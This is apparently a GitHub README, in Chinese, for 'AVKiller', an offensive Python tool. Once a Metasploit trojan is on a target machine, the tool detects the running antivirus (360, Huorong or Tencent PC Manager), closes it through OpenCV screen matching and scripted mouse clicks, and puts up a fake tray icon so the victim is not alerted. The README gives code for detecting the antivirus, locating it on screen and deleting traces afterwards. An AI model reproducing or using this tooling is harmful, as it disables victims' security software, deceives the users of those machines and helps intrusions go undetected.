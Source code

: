 # AVKiller

### 功能更新(2020-7-6)

1. 关闭杀毒软件后，伪造杀毒软件的托盘图标
2. 双击伪造的托盘程序可以正确打开原来的杀毒软件
3. 鼠标移动到伪造杀毒软件图标时会显示响应的气泡事件
![image](https://github.com/PDWR/AVKiller/blob/master/images/fakeTray.png "气泡事件")
4. 右键伪造托盘图标时，可以选择打开活退出（后续可能会更新为匹配原杀毒软件程序界面）
5. 伪造托盘图标程序为母程序释放的子程序，运行后不受母程序影响，独立运行（使用pythonw）

### 原理以及在代码里的注释已经写得比较详尽了，如果还有问题的话，请issue提问，喜欢的话，请不要吝啬给个star！！！


### 运行图
![image](https://github.com/PDWR/AVKiller/blob/master/images/3607-6.gif "关闭&伪造360")
![image](https://github.com/PDWR/AVKiller/blob/master/images/hr7-6.gif "关闭&伪造火绒")
![image](https://github.com/PDWR/AVKiller/blob/master/images/txgj7-6.gif "关闭&伪造腾讯管家")

## 利用图形化识别技术快速关闭目标机器上的杀毒软件


写该脚本的原因是4月份在进行内网渗透的时候，对MSF木马做了免杀处理，做完免杀的木马可以完美绕过杀毒软件的检测，但是msf木马在执行下一步操作的时候，往往会向目标计算机继续写入exe文件或执行powershell代码，这样的操作几乎都会引发杀毒软件的告警，让渗透的过程被对方察觉，而且MSF生成的后渗透可执行文件已经被所有杀毒软件厂商提取特征码，免杀效率几乎为0。所以才有了为何不直接关闭目标的杀毒软件后再进行后渗透操作的想法。


## 功能实现

### 1.识别杀软

为了实现自动识别杀毒软件的功能，首先要知道系统运行了哪些杀毒软件，CMD命令tasklist可以列出系统正在运行的进程，将其与已知的杀毒软件进行进行匹配即可，如果进程中有与av_process里的进程名，说明该电脑正在运行XX杀毒软件。这里需要做个判断，如果不存在杀毒软件的话，则退出该程序。

	#检测杀毒软件函数，返回杀毒软件名称
	av_process = {'hr': 'HipsTray.exe', 'txgj': 'QQPCTray.exe', '360': '360sd.exe'}
	def runningAVs():
		tasklist = popen('tasklist').read().split()  #运行系统命令tasklist
		for av_exe in av_process.values():
			if av_exe in tasklist:
				usingAV = [k for k, v in av_process.items() if v == av_exe][0]
				return usingAV # 返回目标主机使用的杀毒软件名称


判断目标主机使用的杀毒软件后，由于使用的是图像识别，所以需要将对应的图标和"确认""退出"的字样写入

	# 杀毒软件logo，以及其他字符图片的写入。若不存在杀毒软件，程序退出
	try:
		AV = runningAVs()
		print(AV)
		# 将对应的logo写入
		logo_b64 = b64_AV_logo[AV]
		logo_img = base64.b64decode(logo_b64)
		with open(logoImage, 'wb') as f:
			f.write(logo_img)
			
		# 输出通用的‘退出’字符串图片
		with open(logoutImage, 'wb') as f:
			f.write(base64.b64decode(b64_logout))
			
		# 通过杀毒软件判断最后一步退出步骤应该使用的字样
		#（360与腾讯管家的最后一步“确认”字样底色颜色不一样）
		if AV == r'hr':
			return b64_logout
		elif AV == r'360':
			return b64_blue_comfirm
		else:
			return b64_white_comfirm
	#没检测到杀毒软件，程序退出
	except :
		print('主人，这家伙没开杀毒软件！！！！干他๑乛◡乛๑ ')
		exit()


### 2.坐标获取

知道目标主机运行的程序后就需要准备关闭它了，这时候使用opencv的图像识别技术，找到目标（杀毒软件）logo在屏幕的位置，以坐标形式进行返回，用于对鼠标的定位。

	# 使用opencv获取图标的坐标（logo，退出，确认等字样）
	def get_position(imgSource, imgTarget):
		source = cv2.imread(imgSource, 0)  # 0-灰度处理，防止颜色不同对定位产生影响
		target = cv2.imread(imgTarget, 0)
		wight, height = target.shape[::-1]  # 获取图片长和宽，方便确定文字的中新坐标
		res = cv2.matchTemplate(source, target, cv2.TM_CCOEFF_NORMED)
		min_val, max_val, min_loc, max_loc = cv2.minMaxLoc(res)
		pos_x = int(max_loc[0] + wight / 2)
		pos_y = int(max_loc[1] + height / 2)
		# print(pos_x, pos_y)
		return pos_x, pos_y


### 3.鼠标操作

这是pyautogui库的功能，此程序用到的只是rightClick，Click功能，主要是利用opencv获取到的坐标，让鼠标进行移动到对应的位置，然后进行右击和点击操作。

### 4.清理痕迹

活干完了，总不能抢前走人吧，至少得擦掉一些痕迹吧！由于需要多次通过图片对比来找到坐标，所以会在目标电脑里保存6张图片，所以当杀毒软件退出后，我们需要将其删除。CMD的del命令可以删除文件（不是移动到回收站，而是直接删除）

	def clean():
	popen(r'del /q {} {} {} {} {} {}'.format(logoutImage, logoImage, comfireImage,screen_before,screen_logout,screen_comfire))


### 5.Tips

#### a)	关于sleep：为什么需要sleep？
Pyautogui进行截屏操作的时候需要时间（100ms左右，电脑性能会导致时间长短不同），sleep时长跟电脑性能有关，如果目标主机性能足够好的话，可以适当减小sleep时长。

#### b)	关于图片存放位置：为什么不直接在当前目录下？
在当前目录下由于图片中有类似‘退出’、‘确认’字样，会被opencv识别，导致定位不准，所以必须保存在其他目录下

#### c)	关于打开右下角隐藏起的图标
Win+B，再按一下空格键或者回车键

#### d)	关于图片保存
先将图片转为base64，需要用的时候再将其解码回来即可。而且重要的是，当进行渗透的时候，只需要上传一个文件！减少上传的文件数量！

#### e)关于图标与桌面的打开软件的图标是否冲突
这个不会，因为opencv识别时的SourceImage和TargetImage大小差别太大不能识别

### 6. 图片展示
![image](https://github.com/PDWR/AVKiller/blob/master/images/360.gif "关闭360")
![image](https://github.com/PDWR/AVKiller/blob/master/images/txgj.gif "关闭腾讯管家")
![image](https://github.com/PDWR/AVKiller/blob/master/images/hr.gif "关闭火绒")
